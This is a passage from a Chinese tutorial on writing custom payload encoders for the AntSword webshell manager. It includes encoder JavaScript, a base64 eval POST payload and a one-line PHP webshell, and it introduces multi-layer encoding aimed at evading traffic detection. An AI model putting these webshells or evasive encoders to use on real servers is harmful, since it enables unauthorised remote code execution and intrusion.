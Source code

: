 ```
  data\[randomID\]=Buffer.from(data\['\_'\]).toString('base64');
// shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data\[pwd\]=\`eval(base64\_decode($\_POST\[${randomID}\]));\`;
// ##########    请在上方编写你自己的代码   ###################
// 删除 \_ 原有的payload
delete data\['\_'\];
// 返回编码器处理后的 payload 数组
return data;
}
```

##### 几个关键点

前后的代码都是固定的，我们只需要改函数中的代码。

data\[‘\_‘\] 中放的是给目标执行的 php 原始代码，也就是一句话那些常见功能比如文件管理，命令执行对应的 php 代码，这些都内置在 antsword 中。

返回的 data 是一个数组，在操作时，antsword 会把 data 里的每一个 key 和 value 放到 post 里面传输。

假如有如下 data 数组

```
data ={
"a":"123",
"b":"456"
}
```

实际发送的时候，抓包可以看到 post 的数据为 a=123&b=456。

实际上默认编码器的功能就是 data\[pwd\] = data\[‘\_’\]

这里我们可以看到他先生成一个随机数 xxx。然后把原始 php 代码 base64 之后存到 data\[‘xxx’\]  
然后把随机数 xxx 拼接到一小段固定 php 代码里

```
data\[pwd\]=\`eval(base64\_decode($\_POST\[${randomID}\]));\`;
```

这样，发送数据时，post 的代码如下

```
pwd=eval(base64\_decode($\_POST\[xxx\]));&xxx=php原始功能代码
```

当然实际情况中还会进行 url 编码，这些 antsword 会自动处理。  
总而言之，写编码器主要就是操作 data 数组。

#### 1.2 一个多重编码的编码器

上面的默认编码器有一个很明显的特征，即 data\[pwd\] 的内容里有 php 代码。

这是由于一句话服务端是

```
<?php eval($\_POST\['test'\]);?>
```

意味着不管怎么编码，我们发送的数据里必须要有可执行的 php 代码。
